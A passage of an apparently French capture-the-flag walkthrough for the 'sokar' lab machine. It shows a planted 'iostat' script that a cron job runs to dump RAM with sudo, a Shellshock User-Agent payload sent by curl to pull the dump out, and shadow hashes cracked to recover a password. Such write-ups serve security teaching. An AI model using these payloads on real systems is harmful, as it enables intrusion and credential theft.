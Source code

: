 ```bash
fi
```

Il faut parvenir à le faire exécuter en sachant qu'il lit l'action choisie sur l'entrée standard :  

```plain
$ echo "#!/bin/bash" > /tmp/attack
$ echo 'if [ ! -f /tmp/ram ]; then echo add | sudo /home/bynarr/lime; fi' >> /tmp/attack
$ cp /tmp/attack /home/bynarr/iostat
```

On voit le fichier */tmp/ram* apparaître et grossir pour atteindre sa taille définitive :  

```plain
$ ls -lh /tmp/ram

-r--r--r-- 1 root root 256M Feb 23 15:04 /tmp/ram
```

Après avoir compressé le dump réduit à 40Mo on peut le récupérer assez facilement en exploitant shellshock directement via curl :  

```plain
curl -A '() { :;}; echo; echo; /usr/bin/base64 /tmp/ram.tar.bz2;' http://192.168.1.63:591/cgi-bin/cat > out
```

Dans le dump on trouve notamment l'entrée crontab qui explique la faille :  

```plain
Feb 23 13:48:01 sokar CROND[4167]: (bynarr) CMD (/bin/bash -l -c 'source ~/.bash_profile; /bin/netstat -an 2>&1 > /tmp/stats; printf "\n" >> /tmp/stats; iostat 2>&1 >> /tmp/stats' > /dev/null)
```

Et en cherchant les caractères *$6$* on trouve deux hashs :  

```plain
$6$ZEMP4rDiYsxlJz4h$boaXcV1Jn5o7VVI0REPHzSFUfYYjugTKez9SuMAGj68dhiUsNEJWBcM19mHMfqm6L422ePhAnRj.irCccHtPU1:::::::
$6$UVZfMym7$9FFtl9Ky3ABFGErQlpQsKNOmAycJn4MlSRVHsSgVupDstQOifqqu3LvGwf3wmBvmfvh0IslwMo4/mhZ3qnVrM/:::::::
```

Via *John The Ripper* j'ai pu en casser un qui s'avère appartenir... à *bynarr* (U m4d br0?)  

```plain
bynarr:fruity:::::::
```

Au passage je note que le fichier /etc/resolv.conf est world-writable :  

```plain
$ find /etc -writable

/etc/resolv.conf

$ cat /etc/resolv.conf

nameserver 8.8.8.8
```
